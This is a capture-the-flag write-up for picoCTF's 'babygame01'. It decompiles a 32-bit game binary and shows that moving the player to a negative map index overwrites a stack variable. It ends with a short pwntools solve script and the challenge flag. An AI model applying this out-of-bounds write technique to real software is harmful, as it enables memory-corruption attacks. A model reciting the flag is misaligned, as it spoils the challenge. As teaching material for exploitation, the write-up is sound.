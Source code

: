# babygame01
Points: 100

The challenge provides a single 32-bit unstripped x86 binary.

As always, the first step is to run checksec and ghidra.
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

decompiled `main`:
```c
undefined4 main(void) {
   int iVar1;
   undefined4 uVar2;
   int in_GS_OFFSET;
   int local_aac;
   int local_aa8;
   char local_aa4;
   undefined local_aa0 [2700];
   int local_14;
   undefined *local_10;

   local_10 = &stack0x00000004;
   local_14 = *(int *)(in_GS_OFFSET + 0x14);
   init_player(&local_aac);
   init_map(local_aa0,&local_aac);
   print_map(local_aa0,&local_aac);
   signal(2,sigint_handler);
   do {
      do {
         iVar1 = getchar();
         move_player(&local_aac,(int)(char)iVar1,local_aa0);
         print_map(local_aa0,&local_aac);
      } while (local_aac != 0x1d);
   } while (local_aa8 != 0x59);
   puts("You win!");
   if (local_aa4 != '\0') {
      puts("flage");
      win();
      fflush(stdout);
   }
   uVar2 = 0;
   if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
      uVar2 = __stack_chk_fail_local();
   }
   return uVar2;
}
```

`init_player` writes 4 to local_aac and local_aa8, which represent the players x and y position in the map. It also writes 0 to local_aa4.

`init_map` fills the 90 by 30 map with `.`, and proceeds to place a `@` for the player and an `X` for the target.

`print_map` does exactly what the name indicates.

`win` outputs the flag.

We can see that `main` only terminates when the player position reaches <0x59, 0x1d>, and once
it terminates it only outputs the flag if local_aa4 is **NOT** zero. Remember that local_aa4 is
initialized to zero at the beginning of the program. In order to get the flag, we will have to
somehow overwrite local_aa4 and then move the player to <0x59, 0x1d>.

There is one last function I have not mentioned yet, which is `move_player`
```c
void move_player(int *param_1,char param_2,int param_3) {
   int iVar1;

   if (param_2 == 'l') {
      iVar1 = getchar();
      player_tile = (undefined)iVar1;
   }
   if (param_2 == 'p') {
      solve_round(param_3,param_1);
   }
   *(undefined *)(*param_1 * 0x5a + param_3 + param_1[1]) = 0x2e;
   if (param_2 == 'w') {
      *param_1 = *param_1 + -1;
   }
   else if (param_2 == 's') {
      *param_1 = *param_1 + 1;
   }
   else if (param_2 == 'a') {
      param_1[1] = param_1[1] + -1;
   }
   else if (param_2 == 'd') {
      param_1[1] = param_1[1] + 1;
   }
   *(undefined *)(*param_1 * 0x5a + param_3 + param_1[1]) = player_tile;
   return;
}
```
Here we can see they `move_player` adjusts the player position based on wasd, writes the player
char to the new position, and overwrites the old position with `.`. The `p` input simply moves
the player to <0x5a, 0x1d>, and `l` does not matter for this challenge.

The exploit is as follows, we can abuse the fact that the map and local_aa4 are both stored on the
stack, and move the player to a negative index such that it clobbers local_aa4 and gives us the
flag.

```python
from pwn import *

port = [insert port here]
io = remote("saturn.picoctf.net", port)

io.sendline(b"w" * 4)
io.sendline(b"a" * 4)
io.sendline(b"a" * 4)
io.sendline(b"p")

io.interactive()
```

# Flag: `picoCTF{gamer_m0d3_enabled_054c1d5a}`